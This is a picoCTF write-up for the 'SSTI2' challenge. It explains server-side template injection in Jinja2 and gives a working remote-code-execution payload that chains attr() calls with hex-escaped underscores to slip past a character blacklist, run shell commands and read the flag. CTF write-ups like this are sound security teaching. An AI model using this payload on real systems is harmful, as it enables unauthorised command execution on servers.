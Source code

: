 # SSTI2

## Challenge Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Hints

- Server Side Template Injection
- Why is blacklisting characters a bad idea to sanitize input?

## Solution

Guided by the challenge description, I researched about Server-Side Template Injection (I referred to [this](https://portswigger.net/web-security/server-side-template-injection) )

SSTI or Server-Side Template Injection occurs when user input is embedded in a template in an unsafe manner, allowing attackers to execute code on the server. Different template engines like Jinja2 have specific syntax that can be exploited if not properly sanitized.

I opened the website and tested `{{7*7}}` which returned `49`, confirming Jinja2 template engine

<img width="1919" height="847" alt="image" src="https://github.com/user-attachments/assets/93e6b6fb-36ba-47cd-84fb-be753ea6055e" />

<img width="1916" height="845" alt="image" src="https://github.com/user-attachments/assets/9ba207a5-2b05-4309-bb0c-c46084438d6f" />

The next step was to find the correct payload for which I referred to [this](https://onsecurity.io/article/server-side-template-injection-with-jinja2/). I checked what all characters are blocked by WAF and found that `.`,`|`,`_`,`[]`,`|join` were blocked. Now that I know the blocked characters, I should use the payload `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}` after replacinf `id` with `cat flag` since we need the flag. This payload uses hex encoded underscores to bypass the filter

<img width="1236" height="606" alt="image" src="https://github.com/user-attachments/assets/759fb427-aa35-4b69-88cf-96f3328257cf" />

<img width="1917" height="840" alt="image" src="https://github.com/user-attachments/assets/ad385c04-0eee-4b43-93e3-c7b22db13472" />

Thus, the flag for this challenge is `picoCTF{sst1_f1lt3r_byp4ss_afa6aa72}`
